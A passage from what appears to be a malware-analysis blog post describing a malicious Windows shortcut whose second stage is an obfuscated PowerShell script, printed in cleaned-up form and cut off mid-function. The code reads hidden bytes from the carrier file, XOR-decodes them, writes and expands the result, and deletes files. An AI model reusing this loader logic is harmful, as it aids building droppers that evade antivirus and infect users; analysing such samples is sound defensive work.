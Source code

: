 ## Stage 2: The Crazy PowerShell Payload

Okay, buckle up. When you click that `.lnk`, it unleashes a gnarly PowerShell script. It’s a total mess—random variable names like `$knee`, `$fear`, `$policy`. They’re just trying to throw us off and dodge antivirus. Here’s the cleaned-up PS1 code:

```powershell
/c for /f "tokens=*" %f in ('dir /s /b %systemroot%\System32\WindowsPowershell\*.exe ^| findstr /i rshell.exe') do (if exist "%f" (%f "

function sister {
    param($title)
    $mystery = $title.substring(0,$title.length-4) + ''
    return $mystery
}

function trend {
    param($suppose)
    [System.IO.File]::Delete($suppose)
}

function stir {
    param($league,$mirror,$winner,$policy,$basket)
    $knee = New-Object System.IO.FileStream($league,[System.IO.FileMode]::Open,[System.IO.FileAccess]::Read)
    $knee.Seek($mirror,[System.IO.SeekOrigin]::Begin)
    $observe = $winner * 0x01
    $model = New-Object byte[] $winner
    $smooth = New-Object byte[] $observe
    $knee.Read($smooth,0,$observe)
    $knee.Close()
    $fear = 0
    while ($fear -lt $winner) {
        $model[$fear] = $smooth[$fear * 0x01] -bxor $policy
        $fear++
    }
    set-content $basket $model -Encoding Byte
}

function room {
    param($acquire, $mainly)
    expand $acquire -F:* $mainly
}

function would {
    $beauty = $env:public + '\' + 'documents'
    return $beauty
}

function similar {
    param($regulation)
    $shot = Split-Path $regulation
    return $shot
}

function researcher {
    return Get-Location
}

function reality {
    return $env:Temp
}

function suicide {
```